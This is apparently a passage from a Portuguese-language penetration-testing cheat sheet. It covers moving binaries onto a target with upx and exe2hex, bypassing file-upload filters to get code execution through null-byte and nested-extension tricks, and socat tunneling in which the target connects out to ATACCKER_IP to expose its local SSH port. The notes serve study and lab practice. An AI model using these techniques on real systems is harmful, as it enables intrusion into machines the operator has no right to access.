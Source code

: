 servidor ftp com python
- https://docs.python.org/3/library/ftplib.html


### exe2hex
programa transforma binário em hexadecimal

1. comprimir o arquivo a ser transferido
   ```
   upx -9 file.exe
   ```
2. exe2hex
   ```
   exe2hex -x file.exe -p file.txt
   ```
   para windows mais antigos, substituiriamos a flag `-p` (powershell) para `-b` batch (sistemas antigos)
    `-b` BAT      BAT output file (DEBUG.exe method - x86)
	`-p` POSH     PoSh output file (PowerShell method - x86/x64)

3. copia o conteudo do plink.txt
   ```
   cat file.txt | toclip
   ```
4. Reconstrói o arquivo na máquina alvo pelo terminal
   ```
   ctrl+v
   ```


### falsificação de assinatura
- Quando o servidor não possui utilitários para envio de arquivos, mas há possibilidade de fazermos upload de arquivos por uma aplicação web, podemos falsificar a assinatura do arquivo suportado, pdf por exemplo, e enviarmos o nosso payload.

https://sagarsajeev.medium.com/file-upload-bypass-to-rce-76991b47ad8f
- Renamed the payload from : ‘payload.php’ to ‘payload.php\x00.png’ Appending \x00.png to the end bypassed the restriction(Null Byte). 
	- I also found out that backend filters and removes certain keywords. For example, it removes the term ‘.php’. So we can rename a file as ‘payload.p.phphp’. So when the filter removes ‘.php’ , the file name would become ‘payload.php’. Since the firewall has been bypassed at this stage, script will be executed. One of [John Hammonds video](https://www.youtube.com/c/JohnHammond010) helped me with this.
- 
### tunneling (linux)
O tunelamento permite um atacante acessar serviços locais da máquina alvo

#### tunelamento via socat
atacante
```
socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr
```
máquina alvo linux
```
socat TCP4:ATACCKER_IP:8443 TCP4:127.0.0.1:22
```
